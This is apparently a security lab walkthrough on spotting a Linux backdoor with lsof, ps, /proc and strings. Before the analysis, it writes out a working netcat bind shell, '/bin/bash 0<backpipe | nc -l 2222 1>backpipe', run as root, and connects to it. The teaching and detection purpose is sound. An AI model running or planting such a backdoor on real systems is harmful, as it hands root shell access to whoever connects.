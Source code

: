 
# Linux CLI

In this lab we will be looking at a backdoor through the lense of the the Linux CLI.

We will be using a large number of different basic commands to get a better understanding of what the backdoor is and what it does.

For this lab we will be running three different Ubuntu terminals.

The fist will be where we run the backdoor.

The second will be where we connect to it.

The third is where we will be running our analysis.

Let’s get started by opening a Terminal as Administrator


![](attachments/Clipboard_2020-06-12-10-36-44.png)

When you get the User Account Control Prompt, select Yes.

And, open a Ubuntu command prompt:

![](attachments/Clipboard_2020-06-17-08-32-51.png)

On your Linux terminal, please run the following command:

$`sudo su -`

The password is adhd.

We will next need to create a fifo backpipe:

/#`mknod backpipe p`

This will get us to a root prompt. We want to do this because we want to have a backdoor running as root and a connection from a different user account on the system.

We will next need to create a fifo backpipe:

/#`mknod backpipe p`

Next, lets start the backdoor:

/#`/bin/bash  0<backpipe | nc -l 2222 1>backpipe`

In the above command we are creating a netcat listener that forwards all input through a backpipe and then into a bash session.  It then takes the output of the bash session and puts it back into the netcat listiner. 

Basicly, this will create a backdoor listnening on port 2222 of our linux system.

Now, lets open another Ubuntu terminal.  This will be the terminal we connect to the above created backdoor with.

![](attachments/Clipboard_2020-06-17-08-32-51.png)

Now we will need to know the IP address of our linux system:

$`ifconfig`

![](attachments/Clipboard_2020-12-11-07-18-27.png)

Now, lets connect:

$` nc 172.30.249.49 2222`

Remember!!!  Your IP address will be different!!!!

Now, lets type some commands and make sure it is working

`ls`
`whoami`

![](attachments/Clipboard_2020-12-11-07-19-48.png)

As you can see, we are connected to the simple Linux backdoor as root.  Also notice there was not message saying we succesfully connected to the backdoor.  It just drops our curser back to the left side of the screen.

Now, lets open yet another Ubuntu terminal and start our analysis. This means we have one where we created the backdoor, another that connected to it and this third one will be for the analysis.

![](attachments/Clipboard_2020-06-17-08-32-51.png)

On your Linux terminal, please run the following command:

$`sudu su -`

This will get us to a root prompt.   We want to be root becasue doing looking at network connections and process information systemwide requires root access.  Basicly, it is very had to do your job as a SOC pro without root or admin rights.

Lets start by looking at the network connections with lsof.  When we use lsof, we are looking at open files.  When we use the -i flag we are looking at the open Internet connections.  When we use the -P flag we are telling lsof to not try and guess what the service is on the ports that are being used.just give us the port number.

/#`lsof -i -P`


![](attachments/Clipboard_2020-12-11-07-23-35.png)

Now lets dig into the netcat process ID.  We can do this with the lowercase p switch.  This will give us all the open files associated with the listed process ID.

/#`lsof -p 131`

![](attachments/Clipboard_2020-12-11-07-24-11.png)

Lets look at the full processes.  We can do this with the ps command. We are also adding the aux switches.  This is a for all processes.  U for sorted by user and x to indlude the processes using a teletype terminal.

/#`ps aux`

![](attachments/Clipboard_2020-12-11-07-24-39.png)

Lets change directories into the proc directory for that pid.  Remember, proc is a directory that does not exist on the drive.  It allows us to see data associated with the various proccess directly.   This can be very usesfull as it allows us to dig into the memory of a process that is currently running on a suspect system.

/#`cd /proc/[pid]`

![](attachments/Clipboard_2020-12-11-07-25-14.png)

We can see a number of interesting directories here:

/#`ls`

![](attachments/Clipboard_2020-12-11-07-28-21.png)

Remember!!!  Your PID will be different!!!

We can run strings on the exe in this directory.  This is very, very usefull as when programs are created there may be usage information, mentions of system libraries and possible code comments.  We use this all the time to attempt to identify what, exacly a program is doing.

/#`strings ./exe`

![](attachments/Clipboard_2020-12-11-07-25-54.png)

If we scroll down, we can see the actual usage information for netcat.  We pulled it direcly out of memory!

![](attachments/Clipboard_2020-12-11-07-27-29.png)

















